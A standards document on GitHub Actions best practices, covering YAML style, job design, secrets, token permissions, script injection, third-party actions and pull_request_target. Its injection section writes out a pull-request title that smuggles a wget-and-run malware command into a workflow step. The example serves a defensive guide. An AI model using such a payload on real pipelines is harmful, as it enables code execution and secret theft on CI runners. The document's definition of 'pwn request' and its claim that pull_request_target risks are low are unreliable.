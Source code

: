 = TS-X: GitHub Actions Standards
:toc: macro
:toc-title: Contents

:link-docs-concurrency: https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#concurrency
:link-docs-permissions: https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#permissions
:link-docs-security: https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-third-party-actions
:link-docs-security-lab: https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/

This document serves as a collection of best practices for using (and making)
GitHub Actions.

toc::[]

== YAML syntax

////
TODO: Link to YAML best practices
////

Actions and workflows are defined in YAML files. YAML is designed to be a
human-readable, as well as a machine-parsable, data serialization format. YAML
files SHOULD, therefore, be written primarily with readability in mind.

Consideration SHOULD also be given to the maintenance of YAML files. Give
thought, for example, to how diffs will be presented in source control and
pull request systems. For example, because Git is a line-based version control
system, it is RECOMMENDED to use YAML's multi-line syntax for lists. So,
instead of this…

[source,yaml]
----
on:
  push:
    branches: [ "main" ]
  pull_request:
    branches: [ "main" ]
----

… do this:

[source,yaml]
----
on:
  push:
    branches:
      - main
  pull_request:
    branches:
      - main
----

YAML comment syntax SHOULD be used to document anything that is not intuitively
understood from the YAML data structure and the workflow/action schema.

== Designing workflows and actions

=== General guidelines

* Prefer to compose workflows from modules. Encourage reuse by breaking out
  discrete parts of pipelines into actions, reusable workflows, or workflow
  templates.

* Break down workflows into small, discrete jobs and steps. This will make it
  easier to manage conditions and dependencies.

* Choose descriptive and meaningful names for your secrets and variables. It
  SHOULD NOT be necessary to consult any out-of-band documentation to understand
  the purpose of a secret or variable referenced in a workflow. If the meaning
  of a variable cannot be easily deduced from its name and context, include
  an adjacent comment to explain its purpose.

* Names for workflows, jobs and steps should also be clear and consistent.

* Test workflows thoroughly. Ensure that conditional logic and job dependencies
  work as expected. Do this by testing all the possible scenarios that could
  trigger each workflow.

=== Events

For some event types such as `pull_request`, if you do not specify the _types_
of PR events on which you want your workflow to run, GitHub will assume default
activity types. Better, then, to be explicit about the specific event types that
you want to trigger your workflows.

In the following example, event filters and activity types are used to refine
the `pull_request` event trigger. This workflow will run only when a PR is opened
or synchronized (ie when the HEAD commit of the PR changes), and only for PRs
whose base branch is either `main` or `dev`.

[source,yaml]
----
on:
  pull_request:
    types:
      - opened
      - synchronize
    branches:
      - main
      - dev

jobs:
  echo:
    runs-on: ubuntu-latest
    steps:
      - run: echo "Running whenever a PR is opened or synchronized AND base branch is (main OR dev)"
----

=== Jobs

A single job may, for example, compile, test _and_ deploy an application. Though
convenient, it is generally considered to be best practice for each job
definition to be responsible for a single concern, and for complex workflows
to be composed from multiple single-responsibility jobs.

This has a number of advantages. For example, workflows will be easier to extend
and maintain, and logging output will be easier to analyze.

=== Steps

All steps SHOULD be given a unique name. This will help to identify the output
of each step in the logs, and so make it easier to debug failed workflows.

[source,yaml]
----
steps:
  - name: Say hello
    run: echo "Hello, world!"
----

=== Expressions

Expressions are commonly used in `if` attributes to make execution of an
individual step or a whole job conditional.

[source,yaml]
----
jobs:
  production-deploy:
    if: github.repository == 'owner/repo' && github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    steps:
      - name: Checkout code
        uses: actions/checkout@v2
      - name: Setup Nodes
        uses: actions/setup-node@v2
        with:
          node-version: '14'
      - name: Install bats
        run: npm install -g bats
----

The value of the `if` attribute is treated as a JavaScript expression, rather
than a string value. Expressions can be used in other attributes, which assume
string values by default, using the `${{ <expression> }}` notation. But even in
`if` values, if the expression starts with `!`, the whole expression MUST be
encapsulated in the `${{ }}` syntax, or escaped with `''`, `""`, or `()`.
That's because the exclamation mark is reserved notation in YAML.

So, for consistency, it is RECOMMENDED the `${{ <expression> }}` syntax be used to
wrap all expressions, even those in `if` values where this syntax is not
required.

[source,yaml]
----
jobs:
  production-deploy:
    if: ${{ github.repository == 'owner/repo' && github.ref == 'refs/heads/main' }}
    runs-on: ubuntu-latest
    steps:
      - name: Checkout code
        uses: actions/checkout@v2
      - name: Setup Nodes
        uses: actions/setup-node@v2
        with:
          node-version: '14'
      - name: Install bats
        run: npm install -g bats
----

=== Repository and environment variables

Workflows SHOULD include fallback values for variables that are supposed to be
configured via the repository itself. The purpose is to protect the workflow
from those variables being accidentally deleted from the repository's
configuration.

[source,yaml]
----
env:
  MY_ENV_VAR: ${{ vars.MY_ENV_VAR || 'default value' }}
----

For secrets, workflow scripts MUST check for a valid value and fail the step
if a secret is missing.

== Performance

=== Minimalism

Keep individual workflows, and reusable actions, as minimal as possible. The
more time something takes to set up and run, the higher the costs of running
your CI/CD infrastructure. Even shaving a few seconds off the run of a
workflow can add up to significant cost savings over a month, a year.

Prefer lightweight actions over heavyweight ones. Prefer JavaScript actions
over container actions, and best of all are composite actions consisting of
simple shell scripts. Where container actions are essential – for example where
you require a specific programming language or toolchain – prefer to use light
images, such as alpine or alpine-node, over heavy ones.

Don't install unnecessary dependencies.

=== Caching

Be sure to use caching wherever possible. Have package managers cache
dependencies, and cache any generated artifacts that can be reused between
jobs or workflow runs.

=== Timeouts

By default, GitHub kills jobs after 6 hours if they have not finished by
then. Many jobs don't need nearly as much time to finish, but sometimes
jobs can hang and the extended run consumes unnecessary minutes, which has a
cost.

It is RECOMMENDED to specify shorter timeouts that are appropriate for each job.
This is specified in minutes via the `jobs.<job_id>.timeout-minutes` attribute.
Example:

[source,yaml]
----
jobs:
  set_config:
    timeout-minutes: 30
    runs-on: ubuntu-latest
    steps:
      - [...]
----

=== Concurrency

It is RECOMMENDED to implement a concurrency strategy for workflows, especially
long-running, resource-intensive ones. This will cancel running workflows in the
same group when an event triggers a new run of the same workflow. For example,
you can automatically cancel intermediate builds on a PR when a newer commit
gets pushed to the PR's source branch.

[source,yaml]
----
concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: ${{ startsWith(github.ref, 'refs/pull/') }}
----

See the {link-docs-concurrency}[GitHub Docs] for further guidance.

== Security

See also {link-docs-security}[GitHub's Security Hardening for GitHub Actions]
guide, and also the series of posts on {link-docs-security-lab}[GitHub's
Security Lab] blog starting with "part 1: preventing pwn requests".

=== Secrets

Do not hard-code API keys, tokens, passwords, or other such secrets in workflow
files, even if those files are committed to private repositories. All sensitive
data MUST be managed via GitHub Secrets. GitHub Secrets provides a safe way to
store and use secrets in your workflows.

[TIP]
======
CI workflows are also a good place to implement secrets detection using tools
like https://github.com/GitGuardian/ggshield-action[GitGuardian].
======

Secrets SHOULD be regularly rotated, and unused ones deleted. Restrict who has
permissions to create and update secrets.

Do not use complex data types for storing secrets. Secrets SHOULD be
primitive values such as strings or numbers.

[source,txt]
----
# Good
SENSITIVE_VALUE1 = "abcdef"
SENSITIVE_VALUE2 = 123456

# Bad
{
  "sensitiveValue1": "abcdef",
  "sensitiveValue2": 123456
}
----

Be sure to mask any generated sensitive values in log output. Audit the source
code of third party actions to make sure they do the same.

[source,yaml]
----
echo "::add-mask::$GENERATED_SENSITIVE_VALUE"
----

=== Tokens

Avoid storing tokens (and other long-lived secrets) where possible. For example,
rather than using API keys to authenticate with your infrastructure providers,
prefer using OpenID Connect (OIDC).

.How to use OpenID Connect
****
The following steps are done in your cloud provider:

1.  Create a role to be used only by your workflows. The role should contain the
    minimum set of permissions for the workflows to accomplish their tasks.

2.  Create an OIDC trust in the cloud provider. The trust should specify which
    repositories are allowed to obtain tokens, as well as any additional
    information necessary to increase security.

The following steps are done in the GitHub Actions workflows:

1.  Exchange GitHub's OIDC token for access credentials. There are several
    open source actions available from the marketplace that implement this
    exchange process.

2.  Use the short-lived credentials to manage resources. The short-lived
    credentials will be valid only for a single job, and will automatically
    expire after that.
****

DO NOT use classic Personal Access Tokens (PATS) to grant workflow access to
code from another repository. Ideally, create a GitHub App and use its
short-term credentials. If needed, use a fine-grained PAT and give it as few
permissions as necessary for the workflow to do its job (ie. only read access
to the required repositories).

When using fine-grained PATs, rotate then regularly. PATs are bound to specific
GitHub users, so it is RECOMMENDED to create a generic shared user account
against which to create your PATs.

=== `GITHUB_TOKEN` permissions

By default, `GITHUB_TOKEN`, which is automatically generated on each run, is
given wide-ranging permissions to GitHub resources and operations. The principle
of least privilege should be applied to these tokens, which means restricting
permissions to the minimum required to do the job.

Permissions SHOULD be explicitly restricted on a per-workflow basis using
the `permissions` attribute.

[source,yaml]
----
name: Open new issue
on: workflow_dispatch

jobs:
  open-issue:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      issues: write
    steps:
      - run: |
          gh issue --repo ${{ github.repository }} \
            create --title "Issue title" --body "Issue body"
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
----

See the GitHub Docs for a full {link-docs-permissions}[list of available
permissions].

[IMPORTANT]
======
Workflows MUST OT pass the `$GITHUB_TOKEN` value to untrusted third-party
software, including actions from untrusted sources.
======

The same practices apply for all kinds of tokens you create to authenticate
with any kind of service, and which you store in GitHub Secrets. Always restrict
permissions to the bare essentials, and rotate tokens regularly – whatever those
tokens are used for.

=== Environment variable scope

To limit their scope, environment variables should be declared at the step
level wherever possible. Elevate them to the job or (rarely) the workflow
level only to solve the problem of sharing data between steps within a job,
and between jobs within a workflow.

=== Untrusted input

Don't directly reference values you don't control. Consider the following
example:

[source,yaml]
----
- name: lint
  run: |
    echo "${{github.event.pull_request.title}}" | commitlint
----

This allows for injection of malicious code into the workflow. For example,
raising a PR with the following title…

[source,txt]
----
a" && wget https://example.com/malware && ./malware && echo "Title
----

… would cause the following code to be executed in your runner:

[source,txt]
----
echo "a" && wget https://example.com/malware && ./malware && echo "Title" | commitlint
----

The following context data cannot be trusted:

* `github.event.issue.title`
* `github.event.issue.body`
* `github.event.pull_request.title`
* `github.event.pull_request.body`
* `github.event.comment.body`
* `github.event.review.body`
* `github.event.pages.*.page_name`
* `github.event.commits.*.message`
* `github.event.head_commit.message`
* `github.event.head_commit.author.email`
* `github.event.head_commit.author.name`
* `github.event.commits.*.author.email`
* `github.event.commits.*.author.name`
* `github.event.pull_request.head.ref`
* `github.event.pull_request.head.label`
* `github.event.pull_request.head.repo.default_branch`
* `github.head_ref`

There are two possible solutions. The RECOMMENDED one – the safest one – is to
extract the scripts to custom actions, which accept the inputs via their
arguments. These SHOULD be JavaScript or container actions. The risks
associated with script injection are reduced because the action's code is
run in an isolated environment, rather than directly in the runner.

[source,yaml]
----
uses: ./.github/actions/print
with:
  text: ${{ github.event.pull_request.title }}
----

A second option is to bind the input value to an intermediate environment
variable, and then print the value from that variable. This reduces the risks
of script injection because the input value is not directly interpolated
into the shell script. But this is not proper input sanitization, and this
solution is not as robust as the first option. Nevertheless, it is probably
perfectly adequate for private repositories where you trust the contributors.

[source,yaml]
----
- name: Print title
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: |
    echo "$PR_TITLE"
----

[TIP]
======
It is best practice to double-quote shell variables to avoid word splitting.
This practice is relevant to shell scripting in general, and is not specific
to GitHub Actions.
======

In addition, it is RECOMMENDED to use code scanning tools to help detect
potential exploits in your workflow code.

=== Consuming open source actions

There are many open source GitHub Actions that can be plugged in to your own
workflows. However, just like with any open source software, open source actions
MUST be carefully audited before integrating them into your development
toolchain. The risks are similar to using package managers to automate the
integration of third party components into your applications.

The following steps are RECOMMENDED when using third-party actions:

* Use only actions that are actively maintained. Check that bugs are triaged
  and fixed, and that reported security vulnerabilities are quickly patched.

* Use only actions that are published to the GitHub Marketplace, and only actions
  that have been verified by GitHub.

* Review the action's `action.yml` file for inputs and outputs, and check that
  the code does what it says it does.

* Include a specific version of the action, which you have audited. Best practice
  is to specify a commit SHA, rather than a branch or version tag. This ensures
  that the action's code is locked down and cannot be changed without you
  explicitly updating the version referenced from your workflow configuration.
  This will help to protect you from unexpected supply-chain compromises in the
  future.

[source,yaml]
----
- name: Checkout code
  uses: actions/checkout@a12a3943b4bdde767164f792f33f40b04645d846
----

=== PRs from forks

It is RECOMMENDED to disable automatic workflow runs from events triggered from
forks.

Workflows on pull requests to public repositories from _first-time_ outside
contributors will not run automatically by default, but it is RECOMMENDED that
you disable automatic workflow runs from being triggered by external
contributors _all of the time_.

Project maintainers MUST review code coming from external PRs before triggering
the CI to run on those changes. Workflow approval requirements can be configured
for a repository, organization, or at the enterprise level.

More generally, when adding workflows to public repositories, consider the
security implications by asking yourself the following questions:

* What events could trigger a run?
* What code will be executed in the runner? Can it be trusted?
* What inputs are given to the workflow? Can _that_ be trusted?
* What data, secrets, and services does that code access?

Use of the `pull_request_target` event is especially dangerous and its usage
MUST be restricted to a few specific use cases Specifically, when workflows
runs are triggered by this event type, the workflows MUST NOT check out code,
build or run code from the repository.

[source,yaml]
----
on: pull_request_target
#...
  - uses: actions/checkout@v3
    with:
      ref: ${{ github.event.pull_request.head.sha }}
----

Normally, workflow runs triggered from forks do not have access to secrets,
or write access to the repository. But the `pull_request_target` event is a
special case. For this event, the runner will be given the _base_ repository's
secrets and by default the `GITHUB_TOKEN` will be granted write permissions
on the PR's base repository. This opens up more potential attack vectors than
the conventional `pull_request` event (for which `GITHUB_TOKEN` has only read
access to the base repository and no other secrets are given to the runner).

Even though workflow runs triggered by `pull_request_target` events happen
in the context of the base repository, rather than the head branch of the
fork repository (which is what the `pull_request` event does), GitHub
nevertheless RECOMMENDS that workflow runs triggered by `pull_request_target`
events do not checkout, build or run any code from the base repository. In
addition, to prevent cache poisoning, such workflows SHOULD NOT save any caches.

The purpose of these recommendations is to protect against a security
vulnerability known as a "pwn request", which is when an attacker has gained
access to a system and has compromised the passwords of users, or other secrets,
of that system.

There is more detail on this attack vector on {link-docs-security-lab}[GitHub's
Security Lab] blog. Although the risks are low (because workflows triggered by
`pull_request_target` events run on _your_ code not _their_ code), this event
type SHOULD be reserved for limited use cases. GitHub's documentation states
that this event type was introduced "to enable workflows to label PRs (eg. needs
review) or to comment on the PR" and is not intended to be used for any kind
of building, running, or other processing of the PR's changeset.

In summary, whenever you use `pull_request_target` in a workflow, the workflow's
jobs MUST NOT check out, build, or run the repository's code.

=== Self-hosted runners

Use self-hosted runners only for running workflows defined in private
repositories. Any code that `runs-on: self-hosted` runners MUST be kept private.

This is because, if in a public repository, third parties could run malicious
code on your self-hosted runners by forking the public repository and then
opening a pull request that triggers a workflow to run on the _their_ code in
the head branch of their fork. Thus, the code executed in _your_ self-hosted
runner is untrusted.

If you are using self-hosted runners, you are fully responsible for hardening
your infrastructure to keep it secure from malicious use like this, for example
by:

* Configuring a dedicated low-privilege user.
* Using isolated and ephemeral workloads to execute the jobs.
* Implementing logging and monitoring to ensure visibility.

But the ultimate security is to make sure that your self-hosted runners can only
be used by trusted users inside your organization. That means keeping private
the workflows and actions that run on them.

[NOTE]
======
GitHub doesn't allow personal accounts to use self-hosted runners on public
repositories, but they do allow organizations to do so.
======

=== GitHub-hosted runners

It is recommended to pin workflows to specific runner versions, such as
`ubuntu-22.04` rather than `ubuntu-latest`. This means you must manually
update workflow configurations when old runner versions are deprecated,
but the tradeoff is your workflows will be more stable in the meantime.
(This is less an issue of security, more an issue of maintenance.)

[source,yaml]
----
# Prefer:
runs-on: ubuntu-22.04

# To:
runs-on: ubuntu-latest
----
